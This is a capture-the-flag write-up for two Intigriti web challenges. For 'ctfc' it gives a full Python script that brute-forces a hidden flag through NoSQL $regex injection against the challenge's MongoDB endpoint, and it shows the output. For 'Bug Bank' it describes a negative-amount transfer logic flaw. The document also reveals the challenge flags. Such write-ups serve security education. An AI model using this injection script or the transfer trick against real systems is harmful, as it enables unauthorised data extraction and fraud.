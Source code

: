 # Web

## ctfc


### Info

![](screenshots/111.png)


![](screenshots/222.png)

## solution:

After analysing the code source we can know that there is another third challenge and it's not appearing in the dashboard:

```python
def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})
	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points": "1500","released": "False"})

@app.route('/')
@check_login
def dashboard():
	challs = []
	for data in db.challs.find():
		del data['challenge_flag']
		challs.append(data)	
	chall_1 = challs[0]
	chall_2 = challs[1]
	return render_template('t_dashboard.html',username=session['user']['username'],chall_1=chall_1,chall_2=chall_2)
```

also from the route /submit_flag we can see how submiting works and we can see the app using mongoDB:

```python
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	chall_details = db.challs.find_one(
			{
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	)
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"

# wait untill mongodb start then create the challs in db
sleep(10)
createChalls()
```

![](screenshots/333.png)

### NOSqli:
the first thing that comes in my mind after seeing mongoDB is trying noSQLinjection so i tried:

![](screenshots/444.png)

and yeah it worked so we are sure that it's noSQL injection.
so i tried to bruteforce the flag using `$regex` knwowing that the third challenge id is `id:3` and the flag format`INTIGRITI{`:

![](screenshots/555.png)

Now we have to write a script to automate the brute force and here the one i used:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

url = 'https://ctfc.ctf.intigriti.io/submit_flag'
headers = {
    'Host': 'ctfc.ctf.intigriti.io',
    'Cookie': 'session=eyJ1c2VyIjp7Il9pZCI6ImM0NGZkY2UyMDNiYzRiNjNhZjFhODQwMzI1Y2Y5NDA3IiwidXNlcm5hbWUiOiJ0ZWVzdCJ9fQ.ZV9gtA.QuLDFuq4rwWGeAdNfFV424ivlS4',
    'Content-Length': '59',
    'Sec-Ch-Ua': '"Chromium";v="103", ".Not/A)Brand";v="99"',
    'Sec-Ch-Ua-Mobile': '?0',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
    'Sec-Ch-Ua-Platform': '"Linux"',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Origin': 'https://ctfc.ctf.intigriti.io',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'cors',
    'Sec-Fetch-Dest': 'empty',
    'Referer': 'https://ctfc.ctf.intigriti.io/',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9',
}

_id="_id:3"
challenge_flag=""

while True:
    for c in "abcdefghtijklmopqrsuvwyzABCDEFGHIJKLMNOPQRSTUVYWZ0123456789_}":
            payload='{"_id":"%s", "challenge_flag": {"$regex": "^INTIGRITI{%s" }}' % (_id, challenge_flag + c)
            r = requests.post(url,headers=headers,data=payload, verify = False)
            if 'correct flag' in r.text:
                challenge_flag += c
                print("INTIGRITI{"+challenge_flag)
```
and we got it:

```bash
┌──(mo㉿ElMo)-[~/Documents/CTF/web-writeup]
└─$ python3 sol.py
INTIGRITI{h
INTIGRITI{h0
INTIGRITI{h0w
INTIGRITI{h0w_
INTIGRITI{h0w_1
INTIGRITI{h0w_1s
INTIGRITI{h0w_1s_
INTIGRITI{h0w_1s_7
INTIGRITI{h0w_1s_7h
INTIGRITI{h0w_1s_7h4
INTIGRITI{h0w_1s_7h4t
INTIGRITI{h0w_1s_7h4t_
INTIGRITI{h0w_1s_7h4t_P
INTIGRITI{h0w_1s_7h4t_PA
INTIGRITI{h0w_1s_7h4t_PAW
INTIGRITI{h0w_1s_7h4t_PAWS
INTIGRITI{h0w_1s_7h4t_PAWSI
INTIGRITI{h0w_1s_7h4t_PAWSIB
INTIGRITI{h0w_1s_7h4t_PAWSIBL
INTIGRITI{h0w_1s_7h4t_PAWSIBLE
INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
```

##  Bug Bank 


### Info

![](screenshots/666.png)


![](screenshots/3333.png)

this one i solved it after the ctf ended 
at first i was trying some things related to graphQL and for some reasons i reached nothing:

![](screenshots/4444.png)

until i tried randomly transfering random numbers till i got something (unintended solution but please check intigrity official writeups for the intended one)  :

## solution:
first u need to create two accounts:
![](screenshots/777.png)

![](screenshots/888.png)

then send negative amount from account to another we notice that the server logic try to take the amount from u like:
`ur_bugs = ur_bugs - transfered_bugs
so when transfered_bugs is negative we got
ur_bugs = ur_bugs - (-transfered_bugs)
`

![](screenshots/999.png)

![](screenshots/5555.png)

then we can get the flag easily:
![](screenshots/1111.png)

![](screenshots/2222.png)

